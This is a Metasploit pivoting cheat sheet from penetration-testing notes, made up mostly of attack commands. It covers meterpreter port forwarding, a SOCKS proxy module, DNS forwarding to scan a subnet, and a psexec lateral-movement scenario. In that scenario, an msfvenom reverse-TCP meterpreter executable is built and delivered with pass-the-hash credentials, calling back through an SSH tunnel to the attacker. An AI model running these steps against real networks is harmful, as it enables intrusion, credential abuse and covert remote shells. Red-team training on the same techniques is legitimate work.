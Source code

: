 # Metasploit

## 01 - Portfwd

### 1.1 - Help Menu

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

### 1.2 - Usage

Bind port from the target.

```
meterpreter > portfwd add -l <local_port> -p <bind_port> -r <target_IP>
```

Reverse port forwarding from the compromised target.

```
meterpreter > portfwd add -R -L <attacker_IP> -l <local_port> -p <bind_port> -r <compromised_target_IP>
```

Remove port forward rule.

```
meterpreter > portfwd delete -l <local_port> -p <bind_port> -r <target_IP>
```

Remove all port forwarding rules

```
meterpreter > portfwd flush
```

## 02 - SOCKS Proxy

### 2.1 - Usage

```
msf > use auxiliary/server/socks_proxy

msf auxiliary(server/socks_proxy) > options 

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  1080             yes       The port to listen on
   VERSION  5                yes       The SOCKS version to use (Accepted: 4a, 5)


   When VERSION is 5:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   USERNAME                   no        Proxy username for SOCKS5 listener


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server



View the full module info with the info, or info -d command.

msf auxiliary(server/socks_proxy) > set version <4a | 5>

msf auxiliary(server/socks_proxy) > set srvhost <IP>

msf auxiliary(server/socks_proxy) > set srvport <PORT>

msf auxiliary(server/socks_proxy) > set username <username>

msf auxiliary(server/socks_proxy) > set password <password>

msf auxiliary(server/socks_proxy) > run -j
```

Refer to [[Proxychains]] section

### 2.2 - Scenarios

#### 2.2.1 - Portfwd

##### 2.2.2.1 - Bind port and exploit

```
meterpreter > portfwd add -l <local_port> -p <bind_port> -r <target_IP>
```

##### 2.2.2.2 - Bind ISCSI port from and mount it

```
meterpreter > portfwd add -l <local_port> -p 3260 -r <target_IP>

$ sudo iptables
```

##### 2.2.2.3 - Reverse Bind Port Forwarding

Refer to [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/07 - Pivoting and Lateral Movement/Lateral Movement/Windows/P2P Callback Shells|P2P Callback Shells]]

##### 2.2.2.4 - DNS Port Forwarding To Perform Quick Recon

TODO: Refer to the links (under Scenarios section) with [[DNS2TCP]].

```
meterpreter > portfwd add -l <local_port> -L 127.0.0.1 -p 53 -r <DNS_server_IP>

meterpreter > portfwd list

$ cat /etc/dnsmasq.conf
..[truncated]..

$ for ip in 192.168.1.{1..254}; do $(host $ip 127.0.0.1); done

$ nmap -sL --dns-servers 127.0.0.1 192.168.1.0/24
```

#### 2.2.2 - SOCKS Proxy

##### 2.2.2.1 - Dynamic Port Forwarding via Metasploit Framework

TODO: Provide screenshots and a graph illustration

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<SSH_IP> lport=4343 -f exe-service -o shellsvc.exe

$ ssh -t -t -R 4343:127.0.0.1:8884 <username>@<IP>

msf exploit(windows/smb/psexec) > set rhosts <IP>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <password | aad3b435b51404eeaad3b435b51404ee:<nt_hash>>

msf exploit(windows/smb/psexec) > set lhost <SSH_IP>

msf exploit(windows/smb/psexec) > set lport 4343

msf exploit(windows/smb/psexec) > set proxies socks4:127.0.0.1:1080

msf exploit(windows/smb/psexec) > set reverseallowproxy true

msf exploit(windows/smb/psexec) > set reverselistenerbindaddress 127.0.0.1

msf exploit(windows/smb/psexec) > set reverselistenerbindport 8884

msf exploit(windows/smb/psexec) > set disablepayloadhandler true

msf exploit(windows/smb/psexec) > set exe::custom /path/to/shellsvc.exe
```

---
## References

- [Metasploit Unleashed: Portfwd](https://www.offsec.com/metasploit-unleashed/portfwd/)

- [Using Metasploit Routing and Proxychains for Pivoting](https://infinitelogins.com/2021/02/20/using-metasploit-routing-and-proxychains-for-pivoting/)

- [Basic Pivoting Techniques: SSH Dynamic Port Forwarding + Metasploit over SSH](https://www.youtube.com/watch?v=6gqwxGE4o8E)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

- [How to Implement Pivoting and Relaying Techniques Using Meterpreter](https://medium.com/axon-technologies/how-to-implement-pivoting-and-relaying-techniques-using-meterpreter-b6f5ec666795)

- [Port forwarding: Accessing local ports remotely](https://www.hackingtutorials.org/metasploit-tutorials/metasploitable-3-port-forwarding/)

### Scenarios

- [Security Art Work: DNS Port Forwarding con Meterpreter](https://www.securityartwork.es/2011/06/01/dns-port-forwarding-con-meterpreter/)